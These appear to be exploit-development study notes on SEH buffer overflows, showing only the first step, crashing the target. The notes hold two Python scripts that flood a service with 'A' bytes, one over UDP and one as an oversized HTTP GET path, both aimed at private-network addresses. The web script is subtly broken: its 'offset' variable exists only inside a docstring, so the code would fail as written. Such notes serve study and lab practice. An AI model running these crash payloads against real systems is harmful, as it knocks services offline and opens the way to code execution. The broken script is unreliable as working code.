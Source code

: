 # SEH Overflows
## 1- Crashing The App
You send a request with huge data input and review the app if crash or no, Sometimes the App may not crash if you didn't send the data at once.
## Network Script
```
#!/usr/bin/python
import socket, os, time, struct

host = "192.168.0.101"
port = 8433
size = 2000
buffer = b"\x41" * size
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect((host, port))
s.send(buffer)
s.close()

```
## Web Script
```
#!/usr/bin/python
import socket, sys

"""

# offset
2499

"""
host = "192.168.224.10"
port = 80


def send_exploit_request():
    size = 6000
    buffer  = b"A"*offset


    #HTTP Request
    request = b"GET /" + buffer + b"HTTP/1.1" + b"\r\n"
    request += b"Host: " + host.encode() + b"\r\n"
    request += b"User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0" + b"\r\n"
    request += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + b"\r\n"
    request += b"Accept-Language: en-US,en;q=0.5" + b"\r\n"
    request += b"Accept-Encoding: gzip, deflate" + b"\r\n"
    request += b"Connection: keep-alive" + b"\r\n\r\n"
 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(request)
    s.close()

if __name__ == "__main__": 

    send_exploit_request()
```
